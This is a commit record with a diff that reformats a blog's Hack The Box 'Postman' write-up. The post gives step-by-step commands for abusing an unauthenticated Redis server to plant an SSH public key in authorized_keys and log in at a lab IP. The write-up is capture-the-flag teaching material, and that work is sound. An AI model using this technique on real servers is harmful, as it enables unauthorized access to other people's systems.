

Before and after one commit to dfirale/dfirale.github.io, a Jekyll site: the page built from _posts/2020-02-23-Postman.md, in a window 1280 px wide and 900 px high, scrolled down 914 px. Shown: the whole window, without its empty margins (238-1041 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a style sheet for code colours, icons or effects is not loaded.

Commit message:
Update 2020-02-23-Postman.md

```diff
--- a/_posts/2020-02-23-Postman.md
+++ b/_posts/2020-02-23-Postman.md
@@ -19,27 +19,19 @@
 
 After poking Redis service for a while I came up to a great guide/cheatsheet for pentesting Redis: <https://book.hacktricks.xyz/pentesting/6379-pentesting-redis>
 
-"Redis is an open source (BSD licensed), in-memory data structure store, used as a database, cache and message broker. Several times redis will be configured to be accessible anonymously. In this case you won't need to use any username and password."
+> Redis is an open source (BSD licensed), in-memory data structure store, used as a database, cache and message broker. Several times redis will be configured to be accessible anonymously. In this case you won't need to use any username and password.
 
 Sounds great! So let's abuse that and follow the guide:
 
-Install redis-tools: `sudo apt-get install redis-tools`
-
-To interact with Redis: `redis-cli -h <IP>`
+Install redis-tools: `sudo apt-get install redis-tools` and to interact with Redis: `redis-cli -h <IP>`
 
 1. Generate a ssh public-private key pair on your pc: `ssh-keygen -t rsa`
-
 2. Write the public key to a file: `(echo -e "\n\n"; cat ./.ssh/id_rsa.pub; echo -e "\n\n") > foo.txt`
-
 3. Import the file into redis: `cat foo.txt | redis-cli -h 10.10.10.160 -x set crackit`
-
 4. Save the public key to the **authorized_keys** file on redis server:
-
 
 ![alt text](https://raw.githubusercontent.com/dfirale/dfirale.github.io/master/assets/images/postman/redis.png "Redis")
 
-
 It works! We can ssh to the redis server with private key: `ssh -i id_rsa redis@10.10.10.160`
 
-
 ![alt text](https://raw.githubusercontent.com/dfirale/dfirale.github.io/master/assets/images/postman/ssh.png "SSH")
```
